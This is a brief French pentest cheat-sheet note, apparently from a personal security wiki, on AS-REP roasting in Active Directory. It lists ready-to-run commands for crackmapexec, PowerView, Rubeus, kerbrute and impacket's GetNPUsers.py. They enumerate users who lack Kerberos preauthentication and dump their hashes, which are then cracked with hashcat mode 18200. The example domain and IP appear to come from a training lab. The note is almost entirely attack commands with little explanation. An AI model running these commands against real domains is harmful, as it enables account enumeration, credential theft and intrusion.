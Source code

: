 ```yaml
---
public: true # set to true to make the article publishable
---
```


Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
